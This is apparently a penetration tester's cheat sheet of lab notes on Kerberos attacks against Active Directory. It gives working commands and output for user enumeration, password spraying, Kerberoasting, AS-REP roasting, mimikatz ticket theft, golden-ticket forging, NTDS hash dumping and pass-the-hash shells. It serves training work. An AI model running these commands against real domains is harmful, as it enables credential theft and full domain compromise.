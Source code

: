 # Active Directory

## Kerberos

Kerberos is the default authentication service for Microsoft Windows domains. It is intended to be more "secure" than NTLM by using third party ticket authorization as well as stronger encryption. Even though NTLM has a lot more attack vectors to choose from Kerberos still has a handful of underlying vulnerabilities just like NTLM that we can use to our advantage.

Common Terminology -  

Ticket Granting Ticket (TGT) - A ticket-granting ticket is an authentication ticket used to request service tickets from the TGS for specific resources from the domain.
Key Distribution Center (KDC) - The Key Distribution Center is a service for issuing TGTs and service tickets that consist of the Authentication Service and the Ticket Granting Service.
Authentication Service (AS) - The Authentication Service issues TGTs to be used by the TGS in the domain to request access to other machines and service tickets.
Ticket Granting Service (TGS) - The Ticket Granting Service takes the TGT and returns a ticket to a machine on the domain.
Service Principal Name (SPN) - A Service Principal Name is an identifier given to a service instance to associate a service instance with a domain service account. Windows requires that services have a domain service account which is why a service needs an SPN set.
KDC Long Term Secret Key (KDC LT Key) - The KDC key is based on the KRBTGT service account. It is used to encrypt the TGT and sign the PAC.
Client Long Term Secret Key (Client LT Key) - The client key is based on the computer or service account. It is used to check the encrypted timestamp and encrypt the session key.
Service Long Term Secret Key (Service LT Key) - The service key is based on the service account. It is used to encrypt the service portion of the service ticket and sign the PAC.
Session Key - Issued by the KDC when a TGT is issued. The user will provide the session key to the KDC along with the TGT when requesting a service ticket.
Privilege Attribute Certificate (PAC) - The PAC holds all of the user's relevant information, it is sent along with the TGT to the KDC to be signed by the Target LT Key and the KDC LT Key in order to validate the user.

### Enumeration w Kerbrute 

You need to add the DNS domain name with the machine IP to /etc/hosts `10.10.253.78  CONTROLLER.local`

1. Link: (Kerbrute GitHub)[https://github.com/ropnop/kerbrute/releases]
2. rename kerbrute_linux_amd64 to kerbrute
3. make it executable `chmod +x kerbrute`

### Enumerate Users w Kerbrute

1. You need a wordlist for Users -> (User.txt)[https://github.com/Cryilllic/Active-Directory-Wordlists/blob/master/User.txt]
2. 
```console
$ ./kerbrute userenum --dc 10.10.227.157 -d spookysec.local userlist.txt

Version: v1.0.3 (9dad6e1) - 03/12/22 - Ronnie Flathers @ropnop

2022/03/12 12:12:10 >  Using KDC(s):
2022/03/12 12:12:10 >   10.10.227.157:88

2022/03/12 12:12:11 >  [+] VALID USERNAME:       james@spookysec.local
2022/03/12 12:12:12 >  [+] VALID USERNAME:       svc-admin@spookysec.local
2022/03/12 12:12:13 >  [+] VALID USERNAME:       James@spookysec.local
2022/03/12 12:12:13 >  [+] VALID USERNAME:       robin@spookysec.local
2022/03/12 12:12:18 >  [+] VALID USERNAME:       darkstar@spookysec.local
2022/03/12 12:12:20 >  [+] VALID USERNAME:       administrator@spookysec.local
2022/03/12 12:12:26 >  [+] VALID USERNAME:       backup@spookysec.local
2022/03/12 12:12:28 >  [+] VALID USERNAME:       paradox@spookysec.local
2022/03/12 12:12:45 >  [+] VALID USERNAME:       JAMES@spookysec.local
2022/03/12 12:12:51 >  [+] VALID USERNAME:       Robin@spookysec.local
2022/03/12 12:13:25 >  [+] VALID USERNAME:       Administrator@spookysec.local
2022/03/12 12:14:36 >  [+] VALID USERNAME:       Darkstar@spookysec.local
2022/03/12 12:14:59 >  [+] VALID USERNAME:       Paradox@spookysec.local
2022/03/12 12:16:09 >  [+] VALID USERNAME:       DARKSTAR@spookysec.local
2022/03/12 12:16:32 >  [+] VALID USERNAME:       ori@spookysec.local
2022/03/12 12:17:16 >  [+] VALID USERNAME:       ROBIN@spookysec.local
2022/03/12 12:19:04 >  Done! Tested 73317 usernames (16 valid) in 413.056 seconds

```

### Harvesting/ Bruteforce Tickets w Rubeus

**Harvesting:**
You have to run it on attacker machine!
Link: (Rubeus GitHub)[https://github.com/GhostPack/Rubeus]

```console
$ Rubeus.exe harvest /interval:30

 - This command tells Rubeus to harvest for TGTs every 30 seconds
```
**Bruteforce**
Add the domain controller to windows hosts file `echo 10.10.253.78 CONTROLLER.local >> C:\Windows\System32\drivers\etc\hosts`

```console
$ Rubeus.exe brute /password:Password1 /noticket

- This will take a given password and "spray" it against all found users then give the .kirbi TGT for that user
```

### Kerberoasting /w Rubeus & Impacket

Kerberoasting allows a user to request a service ticket for any service with a registered SPN then use that ticket to crack the service password.

**Method1: Rubeus**
```console
$ Rubeus.exe kerberoast 

- This will dump the Kerberos hash of any kerberoastable users

```

Copy the hash to your machine and crack it with hashcat

```console
$ hashcat -m 13100 -a 0 hash.txt wordlist.txt
```

**Method2: Impacket**

```console
$ cd /usr/share/doc/python3-impacket/examples/

$ ./GetNPUsers.py -no-pass -dc-ip 10.10.227.157 spookysec.local/svc-admin                                                                
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Getting TGT for svc-admin
$krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:a9edf52350a4fa9634c1b0b8e88f180a$c4a770ce5ed7bfd6a853d0b16e279ad198530c0961bc03ebdb06cb22d65bef73422d803022e76893f27a2002130ceb7ad27ddbef1d13e878e8d41c40cdd4a3535af63f9c2de2a906873a89f3b73283d2df3d58736540ea611af315beb84c9ec36b3120e03e67c96b993c47467cfb727deb94778558a6b5b937c8f64b063114edbf146607828f969198eb3cbf88fa2b0a761ae2e6e12b5a579ec8a13b7543fd8c6b06eb1ed8e72d51c1e3d65f1aafd635e81dd0660aa09043918f7382eadb1725516872a8c4bdcdb6279a501efdb84cb37176ea95d23783f9a481e0c028581186ce6d7a96aac32ab8152a7317c1d278935ebc

$ hashcat -m 18200 -a 0 hash.txt passwordlist.txt
```

### AS-REP Roasting w/ Rubeus

Dumps the krbasrep5 hashes of user accounts that have Kerberos pre-authentication disabled.

```console
windows on victim:

$ Rubeus.exe asreproast

Crack those Hashes /w hashcat
(Insert 23$ after $krb5asrep$ so that the first line will be $krb5asrep$23$User)

$ hashcat -m 18200 hash.txt wordlist.txt
```

### Pass the Ticket w/ mimikatz

Pass the ticket works by dumping the TGT from the LSASS memory of the machine.

Prepare:
```console
$ mimikatz.exe
$ privilege::debug
- Make sure the outputs says [output '20' ok]
$ sekurlsa::tickets /export
- this will export all of the .kirbi tickets into the directory that you are currently in
```

When looking for which ticket to impersonate I would recommend looking for an administrator ticket from the krbtgt just like the one outlined in red above.

Pass the ticket:

```console
$ kerberos::ptt <ticket>
- ticket from preparing

$ klist
Here were just verifying that we successfully impersonated the ticket by listing our cached tickets.
```

### Golden/Silver Ticket Attack

A golden ticket attack works by dumping the ticket-granting ticket of any user on the domain this would preferably be a domain admin however for a golden ticket you would dump the krbtgt ticket and for a silver ticket, you would dump any service or domain admin ticket. This will provide you with the service/domain admin account's SID or security identifier that is a unique identifier for each user account, as well as the NTLM hash. You then use these details inside of a mimikatz golden ticket attack in order to create a TGT that impersonates the given service account information.

```console
$ mimikatz.exe
$ lsadump::lsa /inject /name:krbtgt
- To create a silver ticket you need to change the /name: to dump the hash of either a domain admin account or a service account such as the SQLService account.
```

Create a Golden/Silver Ticket

```console
Kerberos::golden /user:Administrator /domain:controller.local /sid: /krbtgt: /id:
 This is the command for creating a golden ticket to create a silver ticket simply put a service NTLM hash into the krbtgt slot, the sid of the service account into sid, and change the id to 1103.
```

## Domain Privilege Escalation /w secretsdump.py

You need creds for that:

```console 
$ sudo ./secretsdump.py -dc-ip 10.10.227.157 -target-ip 10.10.227.157 backup@spookysec.local                                              
[sudo] password for kantwood:                                                                                                                                                                 
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation                                                                                                                                      
                                                                                                                                                                                              
Password:                                                                                                                                                                                     
[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied                                                                                                            
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)                                                                                                                                 
[*] Using the DRSUAPI method to get NTDS.DIT secrets                                                                                                                                          
Administrator:500:aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc:::                                                                                                        
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::                                                                                                                
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:0e2eb8158c27bed09861033026be4c21:::                                                                                                               
spookysec.local\skidy:1103:aad3b435b51404eeaad3b435b51404ee:5fe9353d4b96cc410b62cb7e11c57ba4:::
```

NTLM hash: 0e0363213e37b94221497260b0bcb4fc

Use Evil-WinRM to connect with that hash:
```console
$ evil-winrm -i 10.10.227.157 -u Administrator -H 0e0363213e37b94221497260b0bcb4fc                                                                                       
                                                                                                                                                                                              
Evil-WinRM shell v3.3                                                                                                                                                                         
                                                                                                                                                                                              
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine                                                       
                                                                                                                                                                                              
Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                                                                               
Info: Establishing connection to remote endpoint                                               
                                                                                               
*Evil-WinRM* PS C:\Users\Administrator\Documents> 
```
